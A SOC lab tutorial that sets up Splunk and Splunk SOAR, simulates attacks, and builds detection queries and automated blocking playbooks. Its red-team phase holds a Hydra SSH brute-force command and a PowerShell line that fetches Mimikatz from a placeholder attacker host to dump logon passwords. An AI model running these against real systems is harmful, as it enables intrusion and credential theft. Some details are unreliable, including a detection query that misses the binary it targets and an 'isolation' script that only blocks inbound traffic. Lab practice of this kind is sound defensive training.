 # *SOC Engineer Project: Simulated Attack & Automated Response with Splunk SOAR*

## **🛠️ Phase 1: Set Up the SOC Lab (Environment Preparation)**  

### **1. Install Splunk on Ubuntu**  
1. Download & install Splunk:  
   ```bash
   wget -O splunk.tgz https://download.splunk.com/products/splunk/releases/9.0.0/linux/splunk-9.0.0-Linux-x86_64.tgz
   tar -xvzf splunk.tgz
   cd splunk/bin
   ./splunk start --accept-license
   ```  
2. Set Splunk to start automatically:  
   ```bash
   sudo ./splunk enable boot-start
   ```  
3. Open Splunk Web UI:  
   - Go to `http://localhost:8000`  
   - Log in with default credentials (admin:changeme)  

### **2. Install Splunk SOAR (Phantom) on Ubuntu**  
1. Download & install SOAR:  
   ```bash
   wget -O splunk-soar.tgz https://download.splunk.com/products/phantom/releases/5.5.0/splunk-soar-5.5.0.tgz
   tar -xvzf splunk-soar.tgz
   cd splunk-soar
   sudo ./install.sh
   ```  
2. Start SOAR:  
   ```bash
   sudo systemctl start phantom
   ```  
3. Open SOAR Web UI:  
   - Go to `https://<your-ip>:9999`  
   - Set up an admin account  

### **3. Connect Splunk to SOAR**  
1. In Splunk:  
   - **Go to:** Settings → Data Inputs → **Splunk App for SOAR Export**  
   - Add Splunk SOAR’s **IP** and enable event forwarding  

---

## **🔴 Phase 2: Simulating a Cyber Attack (Red Team)**  

### **1. Install Attack Tools on Ubuntu (Attacker Machine)**  
```bash
sudo apt update && sudo apt install -y metasploit-framework nmap hydra
```

### **2. Simulate a Brute Force Attack on SSH**  
1. Run **Hydra** to brute-force SSH login:  
   ```bash
   hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
   ```
2. **Expected Behavior:**  
   - Logs of failed SSH login attempts appear in `/var/log/auth.log`  
   - Splunk will collect these logs  

### **3. Simulate Credential Dumping (Mimikatz) on Windows (If available)**  
1. Download & execute Mimikatz:  
   ```powershell
   Invoke-WebRequest -Uri "http://attacker-ip/mimikatz.exe" -OutFile "C:\Windows\Temp\mimikatz.exe"
   .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
   ```
2. **Expected Behavior:**  
   - **Splunk detects Mimikatz execution** (`EventCode 4104`)  

---

## **🔵 Phase 3: Detecting Attacks in Splunk (Blue Team)**  

### **1. Detect SSH Brute Force (Failed Logins)**  
1. Open Splunk **Search & Reporting**  
2. Run this **Splunk SPL query**:  
   ```spl
   index=linux_logs source="/var/log/auth.log" "Failed password"
   | stats count by user, src_ip
   | where count > 5
   ```
3. **Expected Outcome:**  
   - Displays **attacker IP addresses** that failed to log in **5+ times**  

### **2. Detect Credential Dumping (Mimikatz Execution)**  
```spl
index=wineventlog EventCode=4104 ScriptBlockText="*Invoke-Mimikatz*"
```
**Expected Outcome:**  
- Shows logs where **Mimikatz was executed on a Windows machine**  

---

## **🤖 Phase 4: Automate Response with Splunk SOAR**  

### **1. Create a Playbook to Block Brute Force Attackers**  
1. **Go to:** Splunk SOAR → Playbooks → **Create New Playbook**  
2. **Add these steps:**  
   - Extract the **attacker’s IP** from Splunk logs  
   - Block the IP in **iptables (Linux firewall)**  

3. **Python Script for the Playbook:**  
```python
import os

def block_ip(ip):
    command = f"sudo iptables -A INPUT -s {ip} -j DROP"
    os.system(command)
    return f"Blocked IP: {ip}"

def on_start(container):
    ip = container.get('sourceAddress')
    if ip:
        return block_ip(ip)
```
4. **Save & Activate the Playbook**  

### **2. Create a Playbook to Isolate Compromised Systems**  
1. **Go to:** Splunk SOAR → Playbooks → **Create New Playbook**  
2. **Steps:**  
   - Detect **Mimikatz execution**  
   - **Isolate** the compromised host by cutting off its network access  

3. **Python Script for the Playbook:**  
```python
def isolate_host(host_ip):
    command = f"sudo iptables -A INPUT -s {host_ip} -j DROP"
    os.system(command)
    return f"Isolated Host: {host_ip}"
```
4. **Save & Activate the Playbook**  

---

## **📊 Phase 5: Incident Response Dashboard & Report**  

### **1. Create a Splunk Dashboard**
1. **Go to:** Splunk Web UI → Dashboards → **Create New Dashboard**  
2. Add these **panels**:  
   - **Live Attack Map:**  
     ```spl
     index=linux_logs source="/var/log/auth.log" "Failed password"
     | stats count by src_ip
     ```
   - **SOAR Automated Responses:**  
     ```spl
     index=phantom action="block ip"
     ```

### **2. Generate an Incident Response Report**
- **Include:**  
  ✅ Attack simulation details  
  ✅ Detected events in Splunk  
  ✅ Automated SOAR responses  
  ✅ Dashboard screenshots  

---

## **🎯 Expected Outcome & Deliverables**
✅ **SOC Lab Setup** with **Splunk + Splunk SOAR**  
✅ **Simulated Attacks** (Brute Force, Credential Dumping)  
✅ **Threat Detection in Splunk**  
✅ **Automated Incident Response** (Block attacker IPs, Isolate compromised hosts)  
✅ **Splunk Dashboard for monitoring attacks & responses**  
✅ **Incident Report** with attack logs & automated response actions  


